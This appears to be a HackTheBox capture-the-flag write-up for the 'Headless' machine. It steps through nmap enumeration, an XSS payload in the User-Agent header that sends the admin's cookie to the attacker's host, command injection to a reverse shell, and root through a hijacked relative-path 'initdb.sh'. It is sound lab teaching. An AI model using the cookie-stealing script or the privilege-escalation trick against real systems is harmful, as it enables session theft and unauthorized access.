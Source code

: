 # HackTheBox - Headless

## Enumeration

We start with our nmap scan and only have a HTTP server on port 5000 and SSH on port 22.

```
# Nmap 7.94SVN scan initiated Tue Mar 26 12:42:31 2024 as: nmap -sCV -oN nmap/output 10.10.11.8
Nmap scan report for 10.10.11.8
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Tue, 26 Mar 2024 16:42:39 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94SVN%I=7%D=3/26%Time=6602FAFE%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\
SF:x20Python/3\.11\.2\r\nDate:\x20Tue,\x2026\x20Mar\x202024\x2016:42:39\x2
SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x202799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPDWnvB_Z
SF:fs;\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\
SF:x20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\
SF:x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-wid
SF:th,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Construct
SF:ion</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20b
SF:ody\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\
SF:x20'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20di
SF:splay:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20justif
SF:y-content:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:align-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20height:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\x20
SF:0,\x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOCTYP
SF:E\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x
SF:20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20resp
SF:onse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20vers
SF:ion\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\
SF:x20code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x
SF:20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 26 12:44:09 2024 -- 1 IP address (1 host up) scanned in 98.19 seconds

```

We navigate the webpage and see nothing particularly of interest, the webpage just indicates that it'll be released in about a month so click on the button below which takes us to `/support`

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>



The support page gives us a form which we try XSS but the site seems to have some kind of sanitisation, as it blocks our requests.

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

This indicates we might be looking in the wrong place but it does reveal something interesting, the `is_admin` cookie. It looks to be a JWT token so we pass it to https://jwt.io but it isn't, although does show us that the first portion indicates "user"

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

From here we decide to get creative, although there's no XSS in the form itself maybe we can try an gain XSS from the headers. We try various headers and find that the "User-Agent" header gives us XSS!

<figure><img src=".gitbook/assets/p0l1fadW3n.png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/dJpadp6U8w.png" alt=""><figcaption></figcaption></figure>

## User

Let's now try and get an administrative cookie. We're going to use the following payload to try and do so:

```
<script>var i=new Image(); i.src="http://$VPN_IP:8000/?cookie="+btoa(document.cookie); </script>
```

This payload will silently make a HTTP request to our VPN IP and give us the users cookie encoded in Base64, indicated by `btoa`. After crafting our payload, we start our listener and send the request. We have to wait a moment but we then get a hit on our web server!

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

We decode the payload and then look at where we can use it, finding the `/dashboard` directory.

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

We use the "Inspect Element" feature on our browser and edit our cookie so that instead of seeing an Unauthorized error, we have access to the page.

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Refreshing the page after editing our cookie, we find we have access to an "Administrator Dashboard" that allows us to generate website health reports based on the day. We catch this request in Burp and try to perform command injection and get a POC!

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

From this point we could either enumerate the box to see if we have tools such as Netcat available or download our own bash shell and run it, both are viable options but we'll go for the former for ease.&#x20;

<figure><img src=".gitbook/assets/WzLH2Tv47u.png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/Meb2HOxqwH.png" alt=""><figcaption></figcaption></figure>

From here we stabilise our shell and get our `user.txt`

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

## Root

We check our sudo privileges which reveals we can run `/usr/bin/syscheck` as sudo, so check the strings for it which just reveals the script!

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

So the binary calls "initdb.sh" from our local directory, but there's no checks for where initdb.sh is, so if we create our own malicious shell file, we can just replace its actual purpose. We'll create a simple script that spawns us a shell as root:

```
echo -e '#!/bin/bash\nbash -p' > initdb.sh
```

We'll then make it executable with `chmod +x initdb.sh` and run the binary.

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

This gives us root, and that's the box!
